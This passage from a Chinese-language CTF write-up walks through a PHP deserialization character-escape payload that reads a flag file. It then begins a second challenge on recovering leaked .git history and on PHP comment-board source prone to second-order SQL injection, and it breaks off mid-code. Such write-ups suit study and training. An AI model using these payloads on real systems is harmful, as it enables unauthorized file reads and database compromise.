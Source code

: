 
本题的关键问题在于，对于序列化后的数据进行过滤，导致反序列化时出错。

首先存在明显的变量覆盖，显然可以覆盖的变量只有 `$_SESSION`，随后注意到如果指定 `img_path` 那么 `$SESSION[img]` 将被哈希，变得不可控。而下方 `file_get_contents` 又提醒我们必须控制 `img` 字段，因此需要通过反序列化字符逃逸来实现。

先通过提示在 `phpinfo` 中发现 `d0g3_f1ag.php` 文件，这就是我们要放进 `img` 的文件了。随后利用 `filter` 函数的过滤功能吞掉 24 个字符，使得反序列化时多读入后 24 字符并舍弃后面的所有内容。具体地说，构造：
```
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}
```

那么序列化后数据变为：
```
a:3:{s:4:"user";s:24:"flagflagflagflagflagflag";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

再经过 `filter`，变成：
```
a:3:{s:4:"user";s:24:"";s:8:"function";s:59:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:2:"dd";s:1:"a";}";s:3:"img";s:28:"L3VwbG9hZC9ndWVzdF9pbWcuanBn";}
```

此时，`user` 字段向后读 24 字符，其值为 `";s:8:"function";s:59:"a`，随后是我们控制的 `img` 字段和 `dd` 字段（注意需满足长度为 59），`}` 后的内容被忽略。此时我们就成功控制了 `img`，读到了 `d0g3_f1ag.php`。文件内容指向另一个文件，同样方法读取即可。

## [网鼎杯 2018]Comment

存在 `.git` 泄露，`GitHack` 发现恢复的文件不全，然后通过 `git log --reflog` 发现了一个 `stashed` 的记录，用 `git reset --hard xxx` 回滚到该记录得到完整代码：


```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] !='yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
```